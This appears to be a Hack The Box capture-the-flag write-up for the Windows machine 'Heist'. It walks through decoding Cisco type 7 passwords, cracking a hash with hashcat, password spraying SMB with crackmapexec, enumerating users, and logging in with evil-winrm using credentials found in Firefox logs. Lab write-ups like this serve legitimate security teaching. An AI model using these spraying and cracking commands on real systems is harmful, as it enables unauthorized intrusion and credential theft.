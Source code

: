 ```yaml
---
description: https://app.hackthebox.com/machines/201
cover: ../../../.gitbook/assets/Heist.png
coverY: -71.63212435233162
---
```


# Heist

## Nmap

```
sudo nmap 10.10.10.149 -p- -sS -sV                               

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Starting out we dive straight into port 80 where we are present with a login page. Testing with some common usernames and credentials proves unsuccessful.

![](<../../../.gitbook/assets/image (789).png>)

### Interesting attachment

We then use the "Login as guest" option and are directed to the `/issues.php` page. On this we see the user _Hazard_ has attached a router configuration file.

![](<../../../.gitbook/assets/image (699).png>)

The contents of the Cisco router configuration has been inserted below.

```
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0Â mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
```

### Cisco Password Cracker

A little bit of research shows the Cisco "7" passwords can be easily decrypted to reveal the corresponding plain text string.

The following URL can be used to decrypt Cisco 7 passwords. Where we input both strings to get the passwords shown below.

![](<../../../.gitbook/assets/image (678).png>)

![](<../../../.gitbook/assets/image (843).png>)

**Passwords:**

* $superP@ssword
* Q4)sJu\Y8qz\*A3?d

### hashcat

This encrypted secret string within the file was then cracked using hashcat.

```
hashcat -a 0 -m 500 hash.hash /usr/share/wordlists/rockyou.txt
```

![](<../../../.gitbook/assets/image (779).png>)

### Password Spraying #1

Storing all the cracked passwords within a file alongside discovered potential usernames we then password spray with `crackmapexec` against SMB on the target system.

```
crackmapexec smb '10.10.10.149' -u ~/Desktop/usernames -p ~/Desktop/passwords -d 'heist.htb' --shares
```

![](<../../../.gitbook/assets/image (682).png>)

Where the following user credentials are revealed:

`hazard:stealth1agent`

Using the new set of credentials we can perform further recon against the target host to discover even more users.

```
enum4linux -u 'hazard' -p 'stealth1agent' -r '10.10.10.149' -w 'heist.htb'| grep 'Local User'
```

![](<../../../.gitbook/assets/image (97).png>)

### Password Spraying #2

With a more complete list of usernames we then spray again against `SMB.`

```
crackmapexec smb '10.10.10.149' -u ~/Desktop/usernames -p ~/Desktop/passwords -d 'heist.htb' --continue-on-success
```

![](<../../../.gitbook/assets/image (728).png>)

Where the following user credentials are revealed:

`chase:Q4)sJu\Y8qz*A3?d`

### WinRM

Using the newly acquires credentials we test `WinRm` with `Evil-WinRm` and obtain a foothold.

```
evil-winrm -i '10.10.10.149' -u 'chase' -p 'Q4)sJu\Y8qz*A3?d'
```

![](<../../../.gitbook/assets/image (816).png>)

### User Flag

Grabbing the user.txt flag.

![](<../../../.gitbook/assets/image (783).png>)

### Mozilla Maintenance Logs

Performing application enumeration on the target system we find Mozilla Firefox is installed.

![](<../../../.gitbook/assets/image (618).png>)

Searching through the log files it is revealed the administrator has used credentials inline with the Firefox process which has been logged by the Mozilla Maintenance service.

![](<../../../.gitbook/assets/image (746).png>)

Credentials: `Administrator:4dD!5}x/re8]FBuZ`

### Root Flag

The credentials are then used against the system over `WinRm` and confirmed administrative access.

```
evil-winrm -i '10.10.10.149' -u 'administrator' -p '4dD!5}x/re8]FBuZ'
```

![](<../../../.gitbook/assets/image (922).png>)
